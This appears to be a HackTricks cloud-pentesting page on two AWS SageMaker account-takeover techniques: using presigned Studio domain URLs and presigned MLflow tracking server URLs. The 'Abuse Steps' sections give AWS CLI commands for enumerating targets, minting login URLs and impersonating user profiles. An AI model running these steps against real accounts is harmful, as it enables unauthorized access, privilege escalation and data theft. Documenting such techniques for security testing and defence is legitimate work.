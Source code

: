 # AWS - SageMaker Unauthorized Access

{{#include ../../../banners/hacktricks-training.md}}

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Description
An identity with permission to call `sagemaker:CreatePresignedDomainUrl` on a target Studio `UserProfile` can mint a login URL that authenticates directly into SageMaker Studio as that profile. This grants the attacker's browser a Studio session that inherits the profile's `ExecutionRole` permissions and full access to the profile's EFS-backed home and apps. No `iam:PassRole` or console access is required.

### Requirements
- A SageMaker Studio `Domain` and a target `UserProfile` within it.
- The attacker principal needs `sagemaker:CreatePresignedDomainUrl` on the target `UserProfile` (resource‑level) or `*`.

Minimal policy example (scoped to one UserProfile):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "sagemaker:CreatePresignedDomainUrl",
      "Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
    }
  ]
}
```

### Abuse Steps

1) Enumerate a Studio Domain and UserProfiles you can target
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```

2) Generate a presigned URL (valid ~5 minutes by default)
```bash
aws sagemaker create-presigned-domain-url \
  --domain-id $DOM \
  --user-profile-name $TARGET_USER \
  --query AuthorizedUrl --output text
```

3) Open the returned URL in a browser to sign into Studio as the target user. In a Jupyter terminal inside Studio verify the effective identity:
```bash
aws sts get-caller-identity
```

Notes:
- `--landing-uri` can be omitted. Some values (e.g., `app:JupyterLab:/lab`) may be rejected depending on Studio flavor/version; defaults typically redirect to the Studio home and then to Jupyter.
- Org policies/VPC endpoint restrictions may still block network access; the token minting does not require console sign‑in or `iam:PassRole`.

### Impact
- Lateral movement and privilege escalation by assuming any Studio `UserProfile` whose ARN is permitted, inheriting its `ExecutionRole` and filesystem/apps.

### Evidence (from a controlled test)
- With only `sagemaker:CreatePresignedDomainUrl` on a target `UserProfile`, the attacker role successfully returned an `AuthorizedUrl` like:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- A direct HTTP request responds with a redirect (HTTP 302) to Studio, confirming the URL is valid and active until expiry.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Description
An identity with permission to call `sagemaker:CreatePresignedMlflowTrackingServerUrl` for a target SageMaker MLflow Tracking Server can mint a single‑use presigned URL that authenticates directly to the managed MLflow UI for that server. This grants the same access a legitimate user would have to the server (view/create experiments and runs, and download/upload artifacts in the server’s S3 artifact store) without console access or `iam:PassRole`.

### Requirements
- A SageMaker MLflow Tracking Server in the account/region and its name.
- The attacker principal needs `sagemaker:CreatePresignedMlflowTrackingServerUrl` on the target MLflow Tracking Server resource (or `*`).

Minimal policy example (scoped to one Tracking Server):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
      "Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
    }
  ]
}
```

### Abuse Steps

1) Enumerate MLflow Tracking Servers you can target and pick one name
```bash
aws sagemaker list-mlflow-tracking-servers \
  --query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```

2) Generate a presigned MLflow UI URL (valid for a short time)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
  --tracking-server-name "$TS_NAME" \
  --expires-in-seconds 300 \
  --session-expiration-duration-in-seconds 1800 \
  --query AuthorizedUrl --output text
```

3) Open the returned URL in a browser to access the MLflow UI as an authenticated user for that Tracking Server.

Notes:
- The Tracking Server must be in a ready state (e.g., `Created/Active`). If it is still `Creating`, the call will be rejected.
- The presigned URL is single‑use and short‑lived; generate a new one when needed.

### Impact
- Direct access to the managed MLflow UI for the targeted Tracking Server, enabling viewing and modification of experiments/runs and retrieval or upload of artifacts stored in the server’s configured S3 artifact store, within the permissions enforced by the server configuration.

{{#include ../../../banners/hacktricks-training.md}}
